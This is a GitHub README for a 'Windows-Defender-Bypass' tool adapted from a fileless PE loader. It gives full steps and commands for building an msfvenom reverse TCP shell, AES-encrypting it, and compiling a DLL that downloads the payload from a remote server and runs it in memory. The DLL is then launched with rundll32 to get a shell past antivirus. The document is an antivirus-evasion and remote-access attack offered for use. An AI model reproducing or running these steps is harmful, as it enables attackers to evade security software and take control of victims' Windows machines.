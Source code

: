 # Windows-Defender-Bypass

Tested on 31-07-2023.  [Defender may detect it at the time of you using this. Feel free to do any modifications.]
This is a modified version of @TheD1rkMtr's FilelessPELoader program. The link to the original repo is https://github.com/TheD1rkMtr/FilelessPELoader/. It works by loading Remote AES Encrypted PE in memory, decrypts it and run it.

STEPS TO REPRODUCE:
1. Clone the repository.
2. Edit the IP , port in FilelessPELoader.cpp script.
3. Use the aes.py script to create a encrypted bin files.
   In the POC, I generated the reverse shell payload using msfvenom and encrypted it using aes.py. The synta for the same is
   ```msfvenom -p windows/x64/shell_reverse_tcp lhost=IP lport=PORT -f exe -o shell.exe```

    ```python3 aes.py shell.exe```

Successfull execution of the above command will result two files named cipher.bin and key.bin.

5. Use the following command to compile FilelessPELoader.cpp to a dll.
   ```x86_64-w64-mingw32-g++ FilelessPELoader.cpp -l winhttp -shared --static -o a.dll```

5.Once dll is created, start the web server and your listener.
6. Transfer the dll to a windows machine.

7. Open command prompt and run the following command.

    ```rundll32 a.dll, DllRegistryServer```

9. After a second, You will see the connection in your terminal where you started your listener.
